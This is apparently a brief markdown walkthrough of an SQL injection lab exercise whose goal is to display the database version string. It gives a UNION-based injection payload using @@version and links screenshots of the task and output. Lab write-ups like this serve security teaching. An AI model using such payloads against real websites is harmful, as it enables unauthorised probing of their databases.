### Eight Exercise 👆


![problem.PNG](/assets/SQLi/Eight/problem.PNG)


#### **To do**

```
To solve the lab, display the database version string. 
```


1. Use `@@version`
```sql
' union select NULL, @@version-- -
```


**Output**

![version-PNG](/assets/SQLi/Eight/version.PNG)